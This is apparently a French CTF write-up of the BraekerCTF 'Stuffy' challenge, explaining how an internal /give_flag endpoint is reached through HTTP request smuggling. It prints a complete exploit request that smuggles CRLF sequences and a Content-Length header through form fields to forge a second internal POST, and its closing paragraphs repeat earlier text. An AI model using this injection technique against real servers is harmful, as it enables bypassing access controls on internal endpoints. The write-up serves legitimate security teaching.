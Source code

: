 ```yaml
---
layout: post
title: "Stuffy BraekerCTF"
date: 2024-06-24
categories: CTF
background_image: assets/what_is_sql_injection_attack_4bdd2066d6.png
title_color: "#ffffff"
---
```



Commençons par lire le code qui nous est fourni. On peut voir directement une faille SQL.
![](stuffy1.png)
Seulement, nous n'avons pas la main sur le username. Il est choisi à partir du fichier `usenames.txt` fourni qui est une liste de username aléatoires + 4 chars aléatoires.
![](stuffy2.png)

La SQLi est donc pas la bonne piste.

Parmis toutes les routes on peut apercevoir l'endpoint  `/give_flag`
![](stuffy3.png)
Cette fonction update la valeur du "stuff" avec la valeur de flag pour un user à partir du moment ou la requête vient du serveur lui-même.
On peut essayer de rajouter le Headers à la main mais ça ne marchera pas car c'est le proxy nginx qui modifie les headers.
Il faudrait donc trouver une fonction qui fait une requête et la rediriger vers `/give_flag`.
Ça tombe bien `/set_stuff` fait une requête vers `/update_profile_internal`.

![](stuffy4.png)
Set_stuff récupère dans un premier temps notre username grâce aux cookies et vérifie que cet user existe bien.
Il récupère ensuite la variable de stuff de la requête et vérifie que la longueur est inférieure à 200.
Les variables special_type, special_val sont de la même façon récupérées puis nétoyées avec les fonction `security_filter`.
Les variables special_type et special_val deviennent des Headers et stuff est une partie du body

Nous avons donc la main sur trois variables stuff, special_val et special_type.
La piste la plus probable est une request smuggling. Essayons.
```
POST /set_stuff HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 228
Origin: http://localhost:3000
DNT: 1
Connection: close
Referer: http://localhost:3000/
Cookie: username=love1987OBCj
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: blue

special_type=Content-Length&special_val=80&stuff=aaaaaab%0d%0a%0d%0aPOST /give_flag HTTP/1.1%0d%0aHost: 127.0.0.1:3000%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aContent-Length: 21%0d%0a%0d%0ausername=love1987OBCj
```

Ici, special_type et special_val forment un header qui va renseigner la première requête (la fin de aaaaaab) = Content-length: 80.
Comment trouve-t-on ce nombre ?
 ![](stuffy5.png)
Il suffit de trouver la taille de cette string.
![](stuffy6.png)
Il suffit ensuite de créer la deuxième requête. Puis de rafraîchir la page et nous aurons le flag dans notre stuff.
![](stuffy7.png)


Ici, special_type et special_val forment un header qui va renseigner la première requête (la fin de aaaaaab) = Content-length: 80. Comment trouve-t-on ce nombre ?

Il suffit de trouver la taille de cette string.

Il suffit ensuite de créer la deuxième requête. Puis de rafraîchir la page et nous aurons le flag dans notre stuff.
